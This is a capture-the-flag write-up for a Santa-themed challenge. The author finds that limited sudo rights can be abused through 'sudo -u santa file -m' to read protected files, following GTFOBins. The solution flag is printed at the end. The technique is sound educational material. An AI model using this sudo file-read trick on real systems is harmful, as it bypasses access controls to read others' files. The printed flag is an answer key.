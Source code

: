 ## Lostpresent

## Introduction

The challenge is presented with the following text:
> Clearly, Santa's elves need some more security training. As a precaution, Santa has limited their sudo access. But is it enough?

Also, we are given the following information:
- **Service**: `ssh -p 1211 shelper@3.81.191.176 (password: shelper)`

Let's ssh into the box and try a few commands:

```bash
$ ssh -p 1211 shelper@3.81.191.176
shelper@3.81.191.176's password:
Welcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-1029-aws x86_64)
...
shelper@1211_lostpresent:~$ id
uid=12121(shelper) gid=1000(npole) groups=1000(npole)
shelper@1211_lostpresent:~$ ls -la
total 32
drwxr-xr-x 1 shelper npole 4096 Jan  5 17:10 .
drwxr-xr-x 1 root    root  4096 Dec 16 23:01 ..
-rw-r--r-- 1 shelper npole  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 shelper npole 3771 Apr  4  2018 .bashrc
drwx------ 2 shelper npole 4096 Jan  5 17:10 .cache
-rw-r--r-- 1 shelper npole  807 Apr  4  2018 .profile
drwx------ 2 shelper npole 4096 Dec 16 23:02 .ssh
shelper@1211_lostpresent:~$ ls -la /home/
total 20
drwxr-xr-x 1 root    root  4096 Dec 16 23:01 .
drwxr-xr-x 1 root    root  4096 Jan  5 17:10 ..
drwx------ 1 santa   npole 4096 Dec 16 23:02 santa
drwxr-xr-x 1 shelper npole 4096 Jan  5 17:10 shelper
```

Ok, so let's start to look for our present!

## Elf turned Santa

Actually, a very good hint is given in the description of the challenge. It says that Santa has limited our `sudo` access... so let's see what we can do with `sudo`:

```bash
shelper@1211_lostpresent:~$ sudo -l
Matching Defaults entries for shelper on 1211_lostpresent:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User shelper may run the following commands on 1211_lostpresent:
    (santa) NOPASSWD: /bin/df *, /bin/fuser *, /usr/bin/file *, /usr/bin/crontab -l, /bin/cat /home/santa/naugtylist
```

So we see that we can use some commands as the user `santa` with no password needed.

The first thing that we can think of, is to `cat` the `naugtylist` file impersonating user `santa`. But besides a nice ASCII art and a list of naughty hackers, we don't find anything that might help us get the flag:

```bash
shelper@1211_lostpresent:~$ sudo -u santa /bin/cat /home/santa/naugtylist
                                              zeeedd$$bc
                                            $ " ^""7$$$6$b
                                          .@"  ..     '$$$$       u
                                         :dz@$*-rC"e    $$$   eE" ^$$ d$  .e$$
                                          $*     F@-$L   $$$..$$7. $"d$Lz@$$*
           ...                           z$$$.  $$RJ 3  $$$$$$$"$$"x$$$$$$F"
           $ ""**$L..                  .P* *  **-  $ 'L 4$$$$"J$$2*$$$N$$$
          dF        ^""**N..          d .$ .@C$  ".@.  #dP" 4J$$  '$$$$$$"
        $b$                ^"#**$..   F  ""  *#"*b.*"   3  .J$$     $$$*
        $$"                        #*$$..               4.$$$$$Nr    "L
       $$$                              "#$             $$$$$$$$d    '$b
      @$$F                               J            u$$$$$$$$$$$N..z@
...

Naughty list:
	b0bb
	likvidera
	martin
	morla
	semchapeu
	Steven
	wasa
```

Ok, so maybe there's a cronjob running?

```bash
shelper@1211_lostpresent:~$ sudo -u santa /usr/bin/crontab -l
no crontab for santa
```

Nope, it doesn't look like it. So what can it be?

## Seeking help from GTFOBins

At this point, we can go to https://gtfobins.github.io/ ("*a list of Unix binaries that can be exploited by an attacker to bypass local security restrictions* " as the page presents itself) and look if we find any interesting use of the other binaries that we can execute as `santa`: `df`, `fuser` and `file`.

It turns out that `file` is listed in the page:

<kbd>![gtfobins_file.png](images/gtfobins_file.png)</kbd>

Looking at the information of this binary we find that used with `sudo` can help us access some files with escalated privileges:

<kbd>![gtfobins_file_sudo.png](images/gtfobins_file_sudo.png)</kbd>

Ok, so let's try to use it with the `/home/santa/` directory, where most probably the flag is located:

```bash
shelper@1211_lostpresent:~$ sudo -u santa file -m /home/santa/
/home/santa//flag_santas_dirty_secret, 1: Warning: offset `AOTW{SanT4zLiT7L3xm4smag1c}' invalid
/home/santa//naugtylist, 1: Warning: offset `                                              zeeedd$$bc' invalid
/home/santa//naugtylist, 2: Warning: offset `                                            $ " ^""7$$$6$b' invalid
/home/santa//naugtylist, 3: Warning: offset `                                          .@"  ..     '$$$$       u' invalid
/home/santa//naugtylist, 4: Warning: offset `                                         :dz@$*-rC"e    $$$   eE" ^$$ d$  .e$$' invalid
/home/santa//naugtylist, 5: Warning: offset `                                          $*     F@-$L   $$$..$$7. $"d$Lz@$$*' invalid
/home/santa//naugtylist, 6: Warning: offset `           ...                           z$$$.  $$RJ 3  $$$$$$$"$$"x$$$$$$F"' invalid
/home/santa//naugtylist, 7: Warning: offset `           $ ""**$L..                  .P* *  **-  $ 'L 4$$$$"J$$2*$$$N$$$' invalid
/home/santa//naugtylist, 8: Warning: offset `          dF        ^""**N..          d .$ .@C$  ".@.  #dP" 4J$$  '$$$$$$"' invalid
/home/santa//naugtylist, 9: Warning: offset `        $b$                ^"#**$..   F  ""  *#"*b.*"   3  .J$$     $$$*' invalid
/home/santa//naugtylist, 10: Warning: offset `        $$"                        #*$$..               4.$$$$$Nr    "L' invalid
/home/santa//naugtylist, 11: Warning: offset `       $$$                              "#$             $$$$$$$$d    '$b' invalid
...
```

And right there in the first line, we have the flag! We got you, Santa!
